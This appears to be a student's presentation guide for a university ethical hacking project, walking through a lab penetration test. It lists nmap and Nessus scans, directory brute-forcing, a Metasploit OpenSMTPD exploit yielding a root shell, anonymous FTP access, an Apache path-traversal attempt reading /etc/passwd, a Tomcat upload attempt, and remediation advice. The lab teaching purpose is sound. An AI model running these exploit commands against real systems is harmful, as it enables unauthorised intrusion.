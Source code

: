 # ICT387 Ethical Hacking Project Presentation Guide

This guide provides a clear, step-by-step breakdown of how to deliver a professional presentation based on the ICT387 Ethical Hacking Project report and the README.md command log. Each step is mapped to specific phases of penetration testing with an explanation of tools, commands, and expected outcomes.

---

## Step 1: **Introduction & Objective**
- **Slide Content:**
  - Title: "Penetration Testing on Flower Art Web Infrastructure"
  - Objective: "To identify and exploit vulnerabilities in a black-box environment using professional tools."
- **Talking Points:**
  - Brief intro of project scope.
  - Student ID, Date of engagement.
  - Explain black-box testing methodology.

---

## Step 2: **Environment Setup**
- **Command:**
  ```bash
  date && echo "StudentID: 34658965" && echo ""
  sudo apt update && sudo apt install -y nmap nikto gobuster ftp
  ```
- **Explanation:**
  - Logs the session with a timestamp and ID.
  - Updates the package list and installs necessary tools.
  - **Outcome:** Tools ready for penetration testing.

---

## Step 3: **Nmap Full Port Scan**
- **Command:**
  ```bash
  sudo nmap -Pn -p- 192.168.56.145 -oN all-port-scan.txt
  ```
- **Explanation:**
  - Scans all 65535 TCP ports.
  - **Outcome:** Identifies open ports for deeper inspection.

---

## Step 4: **Nmap Vulnerability Script Scan**
- **Command:**
  ```bash
  nmap -T4 -Pn -p21,22,23,25,80,139,445,8888 -sV --script vuln 192.168.56.145 -oN script-vuln-sV-scan.txt
  ```
- **Explanation:**
  - Checks specific ports using vulnerability scripts.
  - **Outcome:** Detects known CVEs in running services.

---

## Step 5: **Nessus Vulnerability Scan**
- **Action:** Use Nessus GUI to scan the target.
- **Explanation:**
  - Launch Nessus and run a full system scan.
  - **Outcome:** Generates a detailed vulnerability report.

---

## Step 6: **Web Enumeration – Gobuster**
- **Command:**
  ```bash
  gobuster dir -u http://192.168.56.145 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20
  ```
- **Explanation:**
  - Performs directory brute-forcing on the web server.
  - **Outcome:** Finds hidden paths like `/img/`.

---

## Step 7: **Nikto Web Scan**
- **Command:**
  ```bash
  nikto -h http://192.168.56.145
  ```
- **Explanation:**
  - Scans for outdated server software and missing headers.
  - **Outcome:** Reports insecure Apache configuration.

---

## Step 8: **Exploitation – OpenSMTPD RCE (CVE-2020-7247)**
- **Command:**
  ```bash
  msfconsole -q -x 'use exploit/unix/smtp/opensmtpd_mail_from_rce; set RHOSTS 192.168.56.145; set LHOST 192.168.56.142; set LPORT 4444; run'
  ```
- **Explanation:**
  - Uses Metasploit to exploit an RCE vulnerability in OpenSMTPD.
  - **Outcome:** Root shell access on the server.

---

## Step 9: **FTP Anonymous Access**
- **Command:**
  ```bash
  ftp 192.168.56.145
  # Login: anonymous
  ls
  get fix_logging.txt
  ```
- **Explanation:**
  - Accesses FTP without credentials.
  - **Outcome:** Files can be downloaded, posing a security risk.

---

## Step 10: **Apache RCE Attempt – CVE-2021-41773**
- **Command:**
  ```bash
  curl -v --path-as-is http://192.168.56.145/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd
  ```
- **Explanation:**
  - Tries to access system files via path traversal.
  - **Outcome:** Failed exploit – server returns error.

---

## Step 11: **Tomcat Upload Exploit Attempt**
- **Command:**
  ```bash
  msfconsole -q -x 'use exploit/multi/http/tomcat_mgr_upload; set RHOSTS 192.168.56.145; set RPORT 8888; set HttpUsername tomcat; set HttpPassword tomcat; run'
  ```
- **Explanation:**
  - Tries to upload a payload using Tomcat credentials.
  - **Outcome:** Upload failed; interface inaccessible.

---

## Step 12: **Remediation & Conclusion**
- **Slide Content:**
  - Recap vulnerabilities and mitigation:
    - Patch SMTP, Apache, Tomcat
    - Disable anonymous FTP & Telnet
    - Harden SMB config
  - **Conclusion:**
    - Demonstrated real-world attack simulations.
    - Delivered evidence-backed recommendations.

---

## Tips for Presentation
- Open each command section with its goal.
- Include screenshots or command outputs.
- Use bullet points to explain what, why, and outcome.
- Practice a mock Q&A or interactive walk-through.

---

**Student Name:** Khushi Vaid  
**Student ID:** 34658965  
**Email:** 34658965@student.murdoch.edu.au  
**Project:** ICT387 Ethical Hacking Final Report  
**System:** Kali Linux Lab
